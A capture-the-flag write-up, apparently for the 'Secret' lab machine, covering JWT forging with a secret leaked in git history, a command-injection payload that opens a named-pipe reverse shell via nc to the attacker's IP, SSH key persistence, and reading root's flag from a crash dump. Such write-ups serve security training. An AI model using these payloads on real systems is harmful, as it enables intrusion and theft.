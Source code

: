 # SECRET
### User Flag

```bash
┌──(kali@kali)-[~]
└─$ sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.11.120
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63
```

We can fuzz the page but there is really nothing interesting.
First thing to do is download the source code on the main page and then follow the tutorial to create an account with burp for example.

```
POST /api/user/register HTTP/1.1
Accept: application/json
Content-Type: application/json
Content-Length: 85

{
	"name": "Dasor_",
	"email": "testmail@mail.com",
	"password": "testtest"
  }
```

```
POST /api/user/login HTTP/1.1
Accept: application/json
Content-Type: application/json
Content-Length: 85

{
	"email": "testmail@mail.com",
	"password": "testtest"
  }
```

And we get our JWT token althought it is pretty useless since when we connect to /api/priv we just get a message saying that we are normal users.
If we take a look at the source code in /routes/private.js we see that to be admin the our name must be 'theadmin'. So we need to fake our JWT token but we need the secret. If we take a look at the git commits

```bash
┌──(kali@kali)-[~/Machines/Secret/local-web]
└─$ git log --oneline     
e297a27 (HEAD -> master) now we can view logs from server 😃
67d8da7 removed .env for security reasons
de0a46b added /downloads
4e55472 removed swap
3a367e7 added downloads
55fe756 first commit

┌──(kali㉿kali)-[~/Machines/Secret/local-web]
└─$ git checkout de0a46b .
Updated 2 paths from aac28c4
```

if we take a look at the old .env we'll find the secret so we can create a JWT token with name 'theadmin' at jwt.io . Now the page says we are admin but we cannot do anything. let's try accesing /api/logs since we saw that on the file previously mentioned private.js (remember to come back to the lastest commit)

```java
if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
```

We can exploit the exec function and create a reverse shell like this (nc -e doesn't work on this machine)

```bash
┌──(kali@kali)-[~/Machines/Secret]
└─$ nc -lnvvvp 4444                                             
listening on [any] 4444 ...
```

```
GET /api/logs?file=;mknod%20/tmp/backpipe%20p;%20/usr/bin/bash%200</tmp/backpipe%20|%20nc%2010.10.14.196%204444%201>%20/tmp/backpipe
Host: 10.10.11.120
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
auth-token:your admin token
Cache-Control: max-age=0
Content-Length: 4
```

Now we are in let's get the user flag

```bash
connect to [10.10.14.196] from (UNKNOWN) [10.10.11.120] 33178
python3 -c 'import pty; pty.spawn("/bin/bash")'
dasith@secret:~/local-web$ cat /home/dasith/user.txt
```

### Root flag

(We can add our own ssh key to make the work flow easier)

```bash
dasith@secret:~/local-web$ cd /home/dasith/.ssh
dasith@secret:~/local-web$ echo 'yourkey' >> authorized_keys
```

Now if we search in /opt we find a program called count that gives us some information about **any** file or directory. If we look at the code in code.c we can see that if the program crashes it will send a report to /var/crash (default route) so lets do a little trick

```bash
dasith@secret:/opt$ ./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
dasith@secret:/opt$ ps -aux | grep count
root         827  0.0  0.1 235668  7404 ?        Ssl  20:16   0:00 /usr/lib/accountsservice/accounts-daemon
dasith      1688  0.0  0.0   2488   592 pts/3    T    20:20   0:00 ./count
dasith      1691  0.0  0.0   6432   668 pts/3    S+   20:21   0:00 grep --color=auto count

dasith@secret:/opt$ kill -11 1688
dasith@secret:/opt$ fg
./count
Segmentation fault (core dumped)
```

So we have now created a crash report, we can make it "readble" (it is a binary) by using

```bash
dasith@secret:/opt$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash-report
```
And lasty search for the flag in the CoreDump Binary file in /tmp/crash-report
